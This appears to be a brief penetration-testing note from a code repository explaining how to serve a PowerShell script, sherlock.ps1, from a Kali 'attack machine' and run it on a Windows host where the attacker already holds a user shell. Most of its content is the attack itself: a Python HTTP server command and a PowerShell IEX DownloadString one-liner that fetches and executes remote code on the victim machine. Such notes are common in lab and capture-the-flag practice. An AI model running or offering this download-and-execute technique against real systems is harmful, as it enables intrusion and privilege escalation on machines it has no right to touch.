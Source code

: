 # How to download and execute a PS file on Windows machines
## Scenario
Kali attack machine: 1.2.3.4  
We have a user shell on a windows machine.  
We have a PowerShell file on Kali attack box that we want to run: sherlock.ps1  

## Get the file ready
Put it into /root/transfer/  
Start HTTP server: *python3 -m http.server 80*  

## Download and run the file on windows machine  
To the user shell  
Go to a folder that we can write: *cd c:\temp*  
*echo IEX(New-Object Net.WebClient).DownloadString('http://1.2.3.4/sherlock.ps1') | powershell -noprofile -*  
